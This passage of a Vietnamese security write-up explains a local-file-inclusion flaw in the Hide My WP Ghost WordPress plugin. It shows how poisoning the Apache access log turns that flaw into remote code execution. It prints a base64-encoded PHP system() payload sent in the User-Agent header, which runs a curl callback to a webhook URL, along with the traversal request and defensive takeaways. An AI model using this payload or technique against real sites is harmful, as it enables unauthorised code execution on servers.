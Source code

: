 ```http
```

**Result**:

{{< figure src="result2.png" caption="Kết quả LFI => RCE thành công" >}}

**Giải thích**:

```phtml
<?php system(base64_decode('Y3VybCAtSSAnaHR0cHM6Ly93ZWJob29rLnNpdGUvYmFjN2UxNjMtYjQ3NS00MzIzLWEzMTUtYWNkMDEwMzU5NjQwJw==')); ?>
```

Khi truy cập trang với User‑Agent chứa payload trên, Apache sẽ lưu payload này vào access log:

```sh
w41bu1@22NS088:~$ cat /var/log/apache2/other_vhosts_access.log
127.0.1.1:80 127.0.0.1 - - [18/Oct/2025:19:10:08 +0700] "GET /x/wp-activate.php/%2e%2e/%2f/%2e%2e/%2f/%2e%2e/%2f/%2e%2e/%2f/%2e%2e/var/log/apache2/other_vhosts_access.log? HTTP/1.1" 403 2844 "-" "Mozilla/5.0 (X11; Ubuntu; <?php system(base64_decode('Y3VybCAtSSAnaHR0cHM6Ly93ZWJob29rLnNpdGUvYmFjN2UxNjMtYjQ3NS00MzIzLWEzMTUtYWNkMDEwMzU5NjQwJw==')); ?>Linux x86_64; rv:144.0) Gecko/20100101 Firefox/144.0"
```

Khi `include()` một file, PHP sẽ thực thi mọi mã PHP (`<?php ?>`) có trong nội dung file trước khi trả về. Payload được mã hoá bằng Base64 và giải mã tại thời điểm include bằng `base64_decode` tránh lỗi escape dấu ngoặc kép (`"` → `\"`) khi logger lưu. Lệnh giải mã sẽ trở thành:

```sh
curl -I 'https://webhook.site/bac7e163-b475-4323-a315-acd010359640'
```

Cuối cùng `system()` sẽ chạy lệnh này và trả output. 

> [!WARNING]
> Lưu ý: dù `base64_decode` bị chặn bởi plugin nhưng Apache đã lưu trữ trước khi plugin xử lý, chuỗi Base64 vẫn được ghi vào log.

### Conclusion 

Phiên bản **≤ 5.4.01** của Hide My WP Ghost cho phép LFI vì plugin tái tạo đường dẫn rồi `include()` mà không canonicalize/whitelist. Bằng cách kết hợp log‑poisoning và payload chứa `/wp-activate.php/?`, kẻ tấn công có thể từ LFI leo thành RCE trong một số cấu hình. Lỗ hổng được vá trong **5.4.02** bằng việc sanitize URL trước khi trả về.

### Key takeaways 

* **Không include trực tiếp** dữ liệu từ request.
* Dùng **realpath() / basename() / whitelist / kiểm tra base_dir** trước khi include.
* `sanitize_text_field()` không đủ để ngăn traversal.
* Log poisoning (User‑Agent, Referer…) có thể tạo nguồn payload cho LFI — không ghi thô nội dung có thể được include sau này.
* Vá phải kết hợp: sanitize + canonicalize + giới hạn thư mục + kiểm soát quyền ghi log.


## References
